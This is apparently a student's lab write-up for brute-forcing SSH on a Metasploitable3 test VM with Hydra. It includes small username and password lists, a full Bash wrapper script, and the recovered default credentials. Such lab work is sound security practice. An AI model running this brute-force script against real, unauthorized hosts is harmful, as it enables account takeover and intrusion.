



# Phase 1 - Task 1.2: Automate SSH Brute-Force Using Hydra

## Objective
Compromise the service using a custom script that i created.

---

## 🖥️ Setup

- **Attacker Machine:** Kali Linux (UTM)
- **Victim Machine:** Metasploitable3 (UTM)
- **Target IP Address:** `192.168.64.7`
- **Target Port:** `22` (default)

### users.txt

```text
admin
root
user
vagrant
aisha
test
```
### pass.txt
```text
password
123456
toor
vagrant
aishapass
testpass
```


---

## Custom Script

### File: script.sh
```text
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.64.7"  # target IP
TARGET_PORT=22 # target IP

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```



---

## Make the script executable
```text
chmod +x script.sh
```
 

---

## Result

### Execute the script
```text
./script.sh
```
 

### Hydra successfully completed the brute-force attack and identified valid SSH credentials for the target system.

### This confirms that the target system at 192.168.64.7 is accessible over SSH using the credentials:

* Username: vagrant
* Password: vagrant


